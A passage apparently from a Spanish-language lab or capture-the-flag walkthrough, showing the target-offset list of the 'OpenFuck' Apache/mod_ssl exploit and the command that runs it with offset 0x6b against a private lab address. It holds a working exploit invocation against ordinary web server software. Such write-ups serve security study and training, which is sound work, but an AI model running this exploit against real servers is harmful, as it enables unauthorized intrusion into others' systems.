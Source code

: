 ```bash
        0x67 - RedHat Linux 7.1-Update (1.3.22-5.7.1)
        0x68 - RedHat Linux 7.1 (apache-1.3.22-src)
        0x69 - RedHat Linux 7.1-Update (1.3.27-1.7.1)
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
        0x6c - RedHat Linux 7.2-Update (apache-1.3.22-6)
        0x6d - RedHat Linux 7.2 (apache-1.3.24)
        0x6e - RedHat Linux 7.2 (apache-1.3.26)
        0x6f - RedHat Linux 7.2 (apache-1.3.26-snc)
        0x70 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)1
        0x71 - Redhat Linux 7.2 (apache-1.3.26 w/PHP)2
        0x72 - RedHat Linux 7.2-Update (apache-1.3.27-1.7.2)
        0x73 - RedHat Linux 7.3 (apache-1.3.23-11)1
        0x74 - RedHat Linux 7.3 (apache-1.3.23-11)2
        0x75 - RedHat Linux 7.3 (apache-1.3.27)
        0x76 - RedHat Linux 8.0 (apache-1.3.27)
        0x77 - RedHat Linux 8.0-second (apache-1.3.27)
        0x78 - RedHat Linux 8.0 (apache-2.0.40)
        0x79 - Slackware Linux 4.0 (apache-1.3.6)
        0x7a - Slackware Linux 7.0 (apache-1.3.9)
        0x7b - Slackware Linux 7.0 (apache-1.3.26)
        0x7c - Slackware 7.0  (apache-1.3.26)2
        0x7d - Slackware Linux 7.1 (apache-1.3.12)
        0x7e - Slackware Linux 8.0 (apache-1.3.20)
        0x7f - Slackware Linux 8.1 (apache-1.3.24)
        0x80 - Slackware Linux 8.1 (apache-1.3.26)
        0x81 - Slackware Linux 8.1-stable (apache-1.3.26)
        0x82 - Slackware Linux (apache-1.3.27)
        0x83 - SuSE Linux 7.0 (apache-1.3.12)
        0x84 - SuSE Linux 7.1 (apache-1.3.17)
        0x85 - SuSE Linux 7.2 (apache-1.3.19)
        0x86 - SuSE Linux 7.3 (apache-1.3.20)
        0x87 - SuSE Linux 8.0 (apache-1.3.23)
        0x88 - SUSE Linux 8.0 (apache-1.3.23-120)
        0x89 - SuSE Linux 8.0 (apache-1.3.23-137)
        0x8a - Yellow Dog Linux/PPC 2.3 (apache-1.3.22-6.2.3a)

Fuck to all guys who like use lamah ddos. Read SRC to have no surprise
```

Como podemos ver hay diferentes versiones de apache para diferentes versiones de Gnu/linux tras unos intentos comprobamos que la opción correcta es 0x6b 

```bash
./openfuck 0x6b 192.168.66.158 -c 45
```

